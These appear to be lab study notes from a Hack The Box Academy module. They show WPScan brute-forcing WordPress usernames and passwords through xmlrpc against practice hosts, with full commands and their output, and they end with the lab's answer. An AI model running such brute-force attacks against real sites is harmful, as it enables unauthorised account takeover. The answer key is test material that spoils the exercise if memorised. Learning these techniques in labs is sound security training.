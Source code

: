 ```yaml
---
sticker: emoji//1f43c
---
```

## WordPress User Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report returned three users registered on the website: `admin`, `roger`, and `david`. The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`. The `wp-login` method will attempt to brute force the normal WordPress login page, while the `xmlrpc` method uses the WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it is faster.

#### WPScan - XMLRPC


```shell-session
smoothment@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250220134229.png)

Let's use this WPScan command:

```
wpscan --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt --url http://IP:PORT
```

We get this:

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                             
Trying roger / castro Time: 00:00:38 <                        > (1900 / 14346292)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard

```


Answer is:

```
lizard
```